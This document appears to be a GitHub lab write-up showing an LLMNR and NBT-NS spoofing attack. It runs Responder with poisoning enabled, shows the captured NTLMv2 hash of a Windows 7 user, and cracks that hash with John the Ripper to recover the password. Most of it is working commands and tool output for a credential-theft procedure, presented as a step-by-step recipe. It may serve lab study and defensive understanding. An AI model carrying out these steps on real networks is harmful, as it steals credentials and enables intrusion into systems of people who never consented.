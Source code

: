 ## Attack
LLMNR and NBT-NS Spoofing

## Procedure
- Start Capturing the traffic on the interface you are connected with the filter ```ip.addr == <Address of the victim>```.   
- Start responder on interface with sudo privileges.
```bash
f4lc0n@klaw /g/Responder> sudo ./Responder.py -I eno1 -wrf
```
 - The output will be in a similar way.


```bash
.----.-----.-----.-----.-----.-----.--|  |.-----.----.
|   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
|__| |_____|_____|   __|_____|__|__|_____||_____|__|
|__|

NBT-NS, LLMNR & MDNS Responder 2.3

Author: Laurent Gaffie (laurent.gaffie@gmail.com)
To kill this script hit CRTL-C


[+] Poisoners:
LLMNR                      [ON]
NBT-NS                     [ON]
DNS/MDNS                   [ON]

[+] Servers:
HTTP server                [ON]
HTTPS server               [ON]
WPAD proxy                 [ON]
SMB server                 [ON]
Kerberos server            [ON]
SQL server                 [ON]
FTP server                 [ON]
IMAP server                [ON]
POP3 server                [ON]
SMTP server                [ON]
DNS server                 [ON]
LDAP server                [ON]

[+] HTTP Options:
Always serving EXE         [OFF]
Serving EXE                [OFF]
Serving HTML               [OFF]
Upstream Proxy             [OFF]

[+] Poisoning Options:
Analyze Mode               [OFF]
Force WPAD auth            [OFF]
Force Basic Auth           [OFF]
Force LM downgrade         [OFF]
Fingerprint hosts          [ON]

[+] Generic Options:
Responder NIC              [eno1]
Responder IP               [192.168.43.178]
Challenge set              [1122334455667788]

[+] Listening for events...
```

- Now start accessing a inaccessible server on the Victim Machine.![](https://github.com/bj1408/LLMNR-Attack/blob/master/images/VictimSS1.png)

- Now we can see that Responder captures this event.
```bash
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 192.168.43.178
[SMB] NTLMv2-SSP Username : win7\f4lc0n
[SMB] NTLMv2-SSP Hash     : f4lc0n::win7:1122334455667788:C70EFFD5915B4121E403760CC5C484CB:0101000000000000A89E44AB2F15D5013D9048CA1088913D0000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000100000000200000DA67F4AC3DE52B034E39D510C5B9053CDF0220D4DDD1DA9DC814C2571E50F29F0A0010000000000000000000000000000000000009001C0063006900660073002F006600690065006C00730068006100720065000000000000000000
[SMB] Requested Share     : \\FIELSHARE\IPC$
[*] Skipping previously captured hash for win7\f4lc0n
[SMB] Requested Share     : \\FIELSHARE\IPC$
``` 
- Responder successfully stole the password NTLM hash of the victim machine.
- Now use john for cracking the hash.
```bash
f4lc0n@klaw /g/Responder> john hash.txt
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (f4lc0n)
1g 0:00:00:00 DONE 2/3 (2019-05-28 14:20) 2.439g/s 72214p/s 72214c/s 72214C/s 123456..MATT
Use the "--show" option to display all of the cracked passwords reliably
```
- So the password was successfullly stolen :grin:


PS: The network capture for this attack is [here](./Captures/NBNS.pcapng).
